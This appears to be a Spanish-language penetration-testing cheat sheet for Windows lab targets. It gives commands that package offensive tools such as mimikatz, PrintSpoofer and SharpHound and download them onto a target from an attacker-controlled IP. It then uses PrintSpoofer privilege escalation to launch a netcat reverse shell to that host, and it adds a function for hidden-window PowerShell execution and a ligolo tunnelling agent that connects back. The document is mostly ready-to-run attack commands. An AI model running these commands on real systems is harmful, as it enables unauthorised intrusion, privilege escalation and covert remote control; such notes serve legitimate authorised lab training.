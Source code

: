 
### Subir tools

- **Comprimir archivos en zip**

* Opcion 1:
```bash
cd fwindows/     # dentro de la carpeta que tiene todo
zip -r ../tools.zip * 
```

* Opcion 2:
```bash
zip -r tools.zip agent.exe nc.exe PrintSpoofer64.exe mimikatz.exe PowerView.ps1 SharpHound.ps1
```
---
```bash
iwr -uri http://192.168.45.152:8000/tools.zip -Outfile tools.zip
```

* **Descomprimir**

```bash
Expand-Archive tools.zip -DestinationPath .
```

### WPE

```powershell
.\PrintSpoofer64.exe -c "C:\Users\eric.wallows\Documents\nc.exe 192.168.45.152 4444 -e cmd"
```

### Ejecucion en segundo plano

* Funcion

```powershell
function bg_exec($cmd) {
    Start-Process -WindowStyle Hidden -FilePath "powershell.exe" -ArgumentList "-nop -w hidden -c $cmd"
}
```
* ligolo:
```powershell
bg_exec "C:\Users\eric.wallows\Documents\agent.exe -connect 192.168.45.152:11601 -ignore-cert"
```

### Automation Script:

```bash
. .\Executor.ps1
```

#### Help:

```bash
. .\Executor.ps1 -h
```
#### Ligolo Executor:

```bash
Invoke-Ligolo -ip <ip>
```
#### Print-Spoofer

```bash
Invoke-PrintSpoofer -ip <ip>
```

### Port Forwarding

#### ligolo listener

```bash
listener_add --addr <ip_destino:puerto> --to <ip_kali:puerto> --tcp
```

### Shell upgrade (ver Utils)

```bash 
SHELL=/bin/bash script -q /dev/null
```
